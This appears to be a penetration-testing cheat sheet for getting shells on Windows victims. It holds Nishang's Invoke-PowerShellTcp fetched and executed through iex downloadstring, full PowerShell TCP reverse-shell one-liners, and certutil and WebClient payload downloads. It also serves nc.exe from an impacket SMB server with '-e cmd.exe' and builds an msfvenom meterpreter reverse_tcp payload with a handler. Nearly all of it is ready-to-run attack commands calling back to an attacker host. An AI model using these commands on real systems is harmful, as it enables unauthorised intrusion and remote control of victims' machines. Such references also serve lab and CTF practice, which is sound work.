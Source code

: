 ### Windows

#### Nishang
- git clone [Nishang](https://github.com/samratashok/nishang)
- edit InvokePowerShellTcp.ps1 /nishang/Shells/
paste *Invoke-PowerShellTcp -Reverse -IPAddress [your_ip] -Port [your_port]* on bottom of the file.
- run python HTTP server
  -python -m SimpleHTTPServer 443
  -python3 -m http.server 443
-In the victim shell: 
  powershell iex(new-object System.net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### Powershell
powershell -ExecutionPolicy Bypass -File wget.ps1 http://[your_ip:port]/file file

echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

```
powershell iex(new-object System.net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
```

##### PowerShell file download
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[your_ip:port]/wget.exe','C:\Destination\path\wget.exe')"
```

##### PowerShell Reverse Shells
```
$client = New-Object System.Net.Sockets.TCPClient('[your_ip]',[your_port]); $stream = $client.GetStream();
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
} $client.Close();



$client = New-Object System.Net.Sockets.TCPClient('[your_ip]',[your_port]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```



##### powershell wget http://[your_ip:port]
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### smbserver

- smbserver.py
```
git clone [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
```
create directory (for example test)
```
cp nc.exe to your_file_directory_path
```
run smbserver
```
python smbserver.py test your_file_directory_path (example: python smbserver.py test /root/mysmbfile
```
run local nc
```
nc -lnvp 443
```
In the victim shell
```
\\[your_ip]\test\nc.exe -e cmd.exe [your_ip]
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### certutil
```
certutil -urlcache -f http://[your_ip]/file output_file_name
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### Meterpreter
- create msfvenom payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[you_ip] LPORT=[your_port] -f asp > rs.asp

- use mstfconsole
exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost, lport and run

- execute reverse shell
curl http://10.10.10.5/rs.asp
